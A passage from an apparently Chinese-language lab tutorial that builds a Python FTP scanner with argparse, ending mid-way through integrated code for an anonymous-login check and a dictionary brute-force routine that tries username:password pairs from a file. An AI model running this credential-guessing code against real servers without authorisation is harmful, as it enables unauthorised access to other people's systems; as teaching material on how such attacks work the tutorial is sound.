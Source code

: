 通过 argparse 库来解析命令行参数，可以根据添加参数时指定的 help 关键字的内容来自动生成帮助文档。具体效果如下图所示：

![此处输入图片的描述](img/document-uid231096labid1922timestamp1468942164657.jpg)

在处理复杂命令的时候 argparse 的强大就更明显了，由于这个属于 Python 基础，所以 Python 库中自带的库这里我就不做过多的介绍了。

### 3.4 整合全部的代码

基本的代码咱们已经实现完成了，现在把上面的代码整合一下就可以了，代码如下:

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from ftplib import *
import argparse
import time

#匿名登录扫描
def anonScan(hostname):                 #参数是主机名
    try:
        with FTP(hostname) as ftp:      #创建 Ftp 对象
            ftp.login()                 #Ftp 匿名登录
            print('\n[*] ' + str(hostname) + " FTP Anonymous login successful!") #不抛出异常则表明登录成功
            return True
    except Exception as e:              #抛出异常则表明匿名登录失败
        print('\n[-] ' + str(hostname) + " FTP Anonymous logon failure!")
        return False

#暴力破解
def vlcLogin(hostname, pwdFile):                #参数(主机名，字典文件)
    try:
        with open(pwdFile, 'r') as pf:          #打开字典文件
            for line in pf.readlines():         #循环读取字典文件中的每一行
                time.sleep(1)                   #等待 1 秒
                userName = line.split(':')[0]   #从读取的内容中取出用户名
                passWord = line.split(':')[1].strip('\r').strip('\n') #从读取的内容中取出密码
                print('[+] Trying: ' + userName + ':' + passWord)
                try:
                    with FTP(hostname) as ftp:  #以主机名为参数构造 Ftp 对象
                        ftp.login(userName, passWord)   #使用读取出的用户名密码登录 Ftp 服务器
                        #如果没有产生异常则表示登录成功，打印主机名、用户名和密码
                        print('\n[+] ' + str(hostname) + ' FTP Login successful: '+ \
```
